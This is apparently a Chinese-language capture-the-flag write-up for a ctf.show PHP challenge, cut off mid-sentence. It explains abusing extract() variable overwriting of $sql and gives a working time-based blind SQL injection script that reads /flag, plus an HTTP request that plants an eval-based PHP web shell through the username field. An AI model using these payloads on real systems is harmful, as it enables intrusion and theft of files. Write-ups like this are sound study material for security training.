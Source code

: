 ```php
}

if($action=='clear'){   //清理缓存，方便我们调试题目
	system('rm -rf cache/*');
	die('cache clear');
}

if($action=='login'){
	templateUtil::render($action);
}else{
	templateUtil::render($action);
}
```

通过 `extract` 变量覆盖来控制可利用的变量

- 可尝试变量覆盖 $sql ，用 `into outfile` 写文件

- 无回显，变量覆盖 $sql，可利用延时注入 读取根目录 flag


- 依然变量覆盖 $sql，使其成功执行 sql 语句，if 语句进入 `templateUtil::render('index',array('username'=>$username));`  即可写文件，只不过文件名为 MD5（index） 而已了


以下是延时注入脚本，需要修改（我这里没用这个方法）

```python
import requests
url="http://e01d42ab-f4d9-4c1a-a320-9c516b190af0.challenge.ctf.show:8080/index.PHP?action=check&sql=select "
s="abcdef0123456789-}"
flag=""
for i in range(9,45):
	print(i)
	for j in s:
		u=url+"if(substr((select load_file('/flag')),{0},1)='{1}',sleep(3),1)".format(i,j)
		try:
			requests.get(u,timeout=(2.5,2.5))
		except:
			flag+=j
			print(flag)
			break
```

用的是第三种方法，变量覆盖 $sql ，成功进入 if 即可

写 shell 

```http
http://d38b7116-6a61-422e-8ea8-31f46804d1e6.challenge.ctf.show/index.php?action=check&sql= select 1;&username=<?php eval($_POST[x]);?>&password=111
```

MD5(index) = 6a992d5529f459a44fee58c733255e86

shell 路径为：
